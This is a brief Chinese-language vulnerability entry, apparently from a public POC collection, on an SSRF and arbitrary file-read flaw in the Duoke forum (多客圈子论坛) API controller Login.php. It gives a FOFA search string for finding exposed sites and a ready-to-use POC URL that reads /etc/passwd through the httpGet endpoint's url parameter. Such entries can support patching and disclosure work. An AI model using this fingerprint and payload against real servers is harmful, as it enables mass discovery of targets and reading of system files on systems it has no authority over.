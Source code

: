 ## 多客圈子论坛前台SSRF漏洞

/app/api/controller/Login.php 控制器中，httpGet方法存在curl_exec函数，且传参可控，导致任意文件读取+SSRF漏洞

## fofa

```
"/static/index/js/jweixin-1.2.0.js"
```

## poc

```
/index.php/api/login/httpGet?url=file:///etc/passwd
```

![image-20240621195011935](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211950983.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/S12FdNBxJXyS8QXrEHOTfg